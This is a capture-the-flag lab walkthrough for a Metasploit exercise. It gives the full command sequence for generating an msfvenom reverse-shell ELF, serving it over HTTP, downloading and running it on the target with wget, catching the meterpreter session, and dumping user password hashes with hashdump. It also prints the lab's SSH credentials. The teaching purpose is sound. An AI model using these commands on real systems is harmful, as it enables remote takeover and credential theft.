





# Msfvenom

## This is a step by step for a task 6 Metasploit: Exploitation - Msfvenom

## Step  1 -  Accessing the Target Machine

We're given credentials to ssh into the target machine. As you can see in the picture, I have 4 tabs open ( CTRL+SHIFT+T to open a new tab). I'll always give the code to execute, a comment explaining what each command does and a screenshot where I'm doing the same thing. I recommend having 4 named and coloured tabs like I do. Imho it makes the whole process easier to follow. Any text after # is a comment and is grey

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># In the Target Machine tab
</strong><strong># Use command ssh to connect to the target machine
</strong>ssh murphy@10.10.148.173
# When prompted, type yes to continue connecting
yes
# Enter password 
1q2w3e4r
# Type sudo su to get a root shell, this will give you privileges
sudo su
<strong># Enter password again
</strong>1q2w3e4r
</code></pre>

<figure><figcaption><p>step 1 - Target Machine tab</p></figcaption></figure>

## Step 2 - Creating a reverse TCP shell Payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># In the Attack Machine tab (green)
<strong># Check port 7777 is not being used by any service. This isn't necessary, it's just a precaution
</strong>lsof -i :7777 # If port isn't used, nothing will happen. 
# Create a reverse_tcp payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.21.156.82 LPORT=7777 -f elf > rev_shell.elf
</code></pre>

<figure><figcaption><p>step 2 - Attack Machine</p></figcaption></figure>

## Step 3 - Creating a server

In the Server tab we start a simple python http server

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>#In the Server tab
</strong><strong>#check port 9000 is not in use. This isn't necessary, it's just a precaution
</strong>lsof -i :9000 # If port isn't used, nothing will happen. 
#start the server with this command
python3 -m http.server 9000
</code></pre>

<figure><figcaption><p>step 3 - Server Tab</p></figcaption></figure>

## Step 4 - Transfering the payload

Download the payload from the server you set up in the last step


```bash
# In the Target Machine tab
# Download the payload in the Target Machine from the server using this command
wget http://10.21.156.82:9000/rev_shell.elf
# Use the chmod command to assign executable permissions
chmod +x rev_shell.elf
```


<figure><figcaption><p>step 4 - Target Machine tab</p></figcaption></figure>

In the Server tab, you'll see the successful GET request. No need to do anything here, it's just letting you know download was successfull.

<figure><figcaption><p>step 4 - Server tab</p></figcaption></figure>

## Step 5  - Setting up a Payload Handler

In the msfconsole we'll configure and run the payload handler


```bash
# In the Msfconsole tab
# Start Metasploit Console
msfconsole
use linux/x86/meterpreter/reverse_tcp
show options
set lhost 10.21.156.82
set lport 7777
exploit
```


<figure><figcaption><p>step 5 - Msfconsole tab</p></figcaption></figure>

## Step 6 - Executing the Payload


```bash
# In the Target Machine tab
# Execute the payload
./rev_shell.elf
```


<figure><figcaption><p>Step 6 - Target Machine tab</p></figcaption></figure>

In the Msfconsole tab we select the linux/gather/hashdump module, configure it and run it.

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong># In the Msfconsole tab
</strong><strong># Use post exploitation module to dump hashes of users on the system
</strong><strong>use linux/gather/hashdump
</strong><strong># See the options
</strong>show options
# Check for session id
sessions
# Set the correct session id
set session 1
# Run it
exploit
# See the usernames:hashes
</code></pre>

<figure><figcaption><p>Step 6 - Msfconsole tab</p></figcaption></figure>

## Step 7 - Success

We're done


